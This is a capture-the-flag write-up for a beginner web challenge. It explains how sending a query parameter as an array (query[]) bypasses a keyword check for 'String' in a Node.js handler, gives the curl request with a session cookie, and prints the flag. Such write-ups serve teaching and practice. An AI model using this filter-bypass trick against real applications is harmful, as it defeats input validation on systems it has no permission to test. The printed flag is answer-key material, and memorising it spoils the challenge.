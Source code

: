 # Baby Web 🕸️

> Category: Web Exploitation 🕸️
>
> Description: Enter the right key and retrieve the flag? Sound easy right?

## Walkthrough

![img](./chall.png)

We found out that the key is actually a string and not actually creating random bytes.
```js
const key = "randomBytes(16).toString('hex')";
```

We also found out that we need to make sure the **"second if"** is correct and bypass the **""first if""** to get the flag:
```js
 if (query.includes("String")) {
    return res.send(htmlPage("❌ Access Denied: Suspicious pattern detected."));
  }

  if (query.includes(key)) {
    return res.send(htmlPage("✅ Key matched: " + query + "\n🎉 Here is your flag: fakeflag{not the flag, and i love teh ais :D}"));
  } else {
    return res.send(htmlPage("❌ Key did not match."));
  }
```

If we directly paste the key which is **"randomBytes(16).toString('hex')"** straight to the query it will not pass the first if as it contains **"String"**.

## Solution

We need to craft the query as array **"query[]"** so that the first **"if"** can be bypassed due to it checks the word **"String"** in a string query and not checks each character in **"String"** inside the query **("S" + "t" + "r" + ...)**.

So, just send the curl command to get the flag.

```bash
curl -X POST http://<chall-ip>:<chall-port>/search -b "session=eyJjaGFsbGVuZ2UiOiJzLkFBQW5FQT09LnIvVXFzcXdzMkFwRlF5eXlzdVZ2NGc9PSJ9.aF_Ytg.zYhGiydutph2h21QjDu3ElUZ7cg" -d "query[]=randomBytes(16).toString('hex')"
```

![img](./solve.png)

## 🏳️Flag:
>prelim{i_was_confused_ab_what_to_make--so_i_made_a_js_type_confusion_baby_challenge_ehhe}